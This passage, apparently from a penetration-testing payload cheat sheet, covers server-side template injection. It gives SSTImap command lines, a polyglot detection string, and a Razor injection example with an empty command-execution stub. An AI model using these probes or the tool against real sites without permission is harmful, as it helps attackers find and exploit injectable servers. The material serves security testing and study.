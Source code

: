 [SSTImap](https://github.com/vladko312/SSTImap) - Automatic SSTI detection tool with interactive interface based on [Tplmap](https://github.com/epinna/tplmap)

e.g:

```powershell
python3 ./sstimap.py -u 'https://example.com/page?name=John' -s
python3 ./sstimap.py -u 'https://example.com/page?name=Vulnerable*&message=My_message' -l 5 -e jade
python3 ./sstimap.py -i -A -m POST -l 5 -H 'Authorization: Basic bG9naW46c2VjcmV0X3Bhc3N3b3Jk'
```

## Methodology

![SSTI cheatsheet workflow](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Images/serverside.png?raw=true)

---
## Detection

In most cases, this polyglot payload will trigger an error in presence of a SSTI vulnerability :

```
${{<%[%'"}}%\.
```

The [Template Injection Table](https://github.com/Hackmanit/template-injection-table) is an interactive table containing the most efficient template injection polyglots along with the expected responses of the 44 most relevant template engines.

## ASP.NET Razor

[Official website](https://docs.microsoft.com/en-us/aspnet/web-pages/overview/getting-started/introducing-razor-syntax-c)
> Razor is a markup syntax that lets you embed server-based code (Visual Basic and C#) into web pages.

### ASP.NET Razor - Basic injection

```powershell
@(1+2)
```

### ASP.NET Razor - Command execution

```csharp
@{
  // C# code
}
```

---

## Expression Language EL

[Official website](https://docs.oracle.com/javaee/6/tutorial/doc/gjddd.html)
> Expression Language (EL) is mechanism that simplifies the accessibility of the data stored in Java bean component and other object like request, session and application, etc. There are many operators in JSP that are used in EL like arithmetic and logical operators to perform an expression. It was introduced in JSP 2.0
